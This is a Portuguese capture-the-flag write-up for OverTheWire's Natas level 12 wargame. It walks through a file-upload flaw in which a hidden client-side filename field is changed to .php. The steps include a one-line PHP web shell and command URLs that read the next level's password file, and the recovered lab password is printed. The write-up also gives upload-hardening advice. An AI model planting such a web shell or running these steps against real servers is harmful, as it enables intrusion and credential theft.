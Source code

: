 # 🕵️ Natas - Nível 12 (🇧🇷 Português)  
*Data: 03/06/2025*    
*Dificuldade: Média*   
*Categoria: Web* 

---

## 🎯 Objetivo

O objetivo deste desafio é identificar e explorar uma vulnerabilidade de upload de arquivos que permite a manipulação de nomes de arquivos no lado do cliente, resultando em Execução Remota de Código (RCE) para obter a senha do próximo nível (Natas13).  

---

## 🔎 Análise

- A aplicação web em `http://natas12.natas.labs.overthewire.org/` oferece uma funcionalidade de upload de imagens JPEG com um limite de tamanho de 1KB.  
- Tentativas de bypass de extensão comuns (ex: `.php.jpg`, `test.php%00.jpg` - null byte) não funcionaram, pois o servidor sempre anexa `.jpg` ao nome final, invalidando a execução como PHP.  
- A análise do código fonte da página HTML revelou um campo oculto no formulário de upload: `<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />`.  
- Este campo oculto pré-define o nome do arquivo que será salvo no servidor, incluindo a extensão `.jpg`, antes mesmo de o usuário selecionar o arquivo para upload.  
- A vulnerabilidade reside no fato de que o nome final do arquivo é controlado por um valor pré-populado no lado do cliente (via campo `hidden`), que pode ser interceptado e manipulado.
- Nosso objetivo é alterar a extensão de `.jpg` para `.php` no campo `filename` da requisição HTTP para que o servidor salve nosso arquivo com a extensão correta.
- O payload a ser enviado será um simples shell PHP: `<?php system($_GET['cmd']); ?>`, permitindo a execução de comandos via parâmetro `cmd` na URL. 

---

## 🧱 Etapas

1. Acessar a Aplicação: Navegar até `http://natas12.natas.labs.overthewire.org/`.  
2. Testar o Upload: Tentar fazer upload de um arquivo para observar o comportamento do servidor (renomeando para `.jpg`).  
3. Analisar o Código Fonte: Inspecionar o código HTML da página de upload para identificar o campo `input type="hidden" name="filename"`.  
4. Preparar o Payload: Criar um arquivo PHP (ex: `bypass.php`) com o conteúdo `<?php system($_GET['cmd']); ?>`.  
5. Interceptar a Requisição: Utilizando a ferramenta proxy `Burp Suite` para capturar a requisição de upload do arquivo.  
6. Manipular o Nome do Arquivo: Na requisição interceptada, localizar o parâmetro `filenamee` alterar sua extensão para `.php `(ex: c36r0bea02.jpg para c36r0bea02.php).  
7. Enviar a Requisição: Enviar a requisição modificada para o servidor.
8. Verificar Upload: O servidor retornará uma mensagem confirmando o upload do arquivo com a extensão .php (ex: The file `upload/dnfplwi4tz.php` has been uploaded).
9. Acessar o Shell Web: Navegar até a URL do arquivo PHP recém-enviado (ex: `http://natas12.natas.labs.overthewire.org/upload/dnfplwi4tz.php`). Observar as mensagens de erro ("Notice: Undefined index: cmd", "Warning: system(): Cannot execute a blank command"), que confirmam que o PHP está interpretando o arquivo.
10. Executar Comandos: Testar a execução de comandos adicionando o parâmetro cmd na URL (ex: `http://natas12.natas.labs.overthewire.org/upload/dnfplwi4tz.php?cmd=pwd`). Confirmar o RCE.
11. Obter a Senha: Executar o comando para ler o arquivo de senha do Natas13: `http://natas12.natas.labs.overthewire.org/upload/dnfplwi4tz.php?cmd=cat%20/etc/natas_webpass/natas13`.  

---

## 🔑 Senha Encontrada

```
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
```

---

## ✅ Conclusão

A vulnerabilidade foi explorada com sucesso ao manipular o campo filename de um input hidden no formulário de upload, que era preenchido no lado do cliente. Isso permitiu o bypass da validação de extensão do servidor e o upload de um shell PHP. A execução remota de código foi confirmada e a senha para o próximo nível foi obtida. Este caso destaca o perigo de confiar em qualquer tipo de controle de entrada do lado do cliente para a segurança da aplicação, especialmente em funcionalidades de upload.

---

## 🧪 Comandos Utilizados

Conteúdo do arquivo shell.php:
PHP

<?php system($_GET['cmd']); ?>
Acesso ao shell web (após upload e manipulação do nome):  
`http://natas12.natas.labs.overthewire.org/upload/[nome_aleatorio].php`  
Verificar RCE:   
`http://natas12.natas.labs.overthewire.org/upload/[nome_aleatorio].php?cmd=pwd`  
Obter senha do Natas13:   
`http://natas12.natas.labs.overthewire.org/upload/[nome_aleatorio].php?cmd=cat%20/etc/natas_webpass/natas13`  

---

## 🧠 Observações

Validação Server-Side é Crucial: Nunca confie em validações feitas apenas no lado do cliente (JavaScript, campos HTML ocultos). Sempre revalide todas as entradas no lado do servidor.
Whitelist para Extensões e Tipos MIME: Em vez de blacklists, use whitelists (listas de permissão) para extensões de arquivos e tipos MIME permitidos para upload.
Renomeação Segura de Arquivos: Ao renomear arquivos, use um nome gerado aleatoriamente e uma extensão validada no servidor, sem permitir qualquer entrada do usuário no nome ou extensão final.
Isolamento de Uploads: Arquivos enviados por usuários devem ser armazenados em um diretório fora da raiz web ou configurado para não permitir execução de scripts.


---

## 📎 Scripts desenvolvidos

[bypass.php](): Um shell PHP simples (<?php system($_GET['cmd']); ?>) utilizado para a execução remota de comandos.

---

<p align="center"> <a href="../Natas11/Readme-BR.md">⬅️ Anterior</a> • <a href="../Natas13/Readme-BR.md">Proximo ➡️</a> </p>
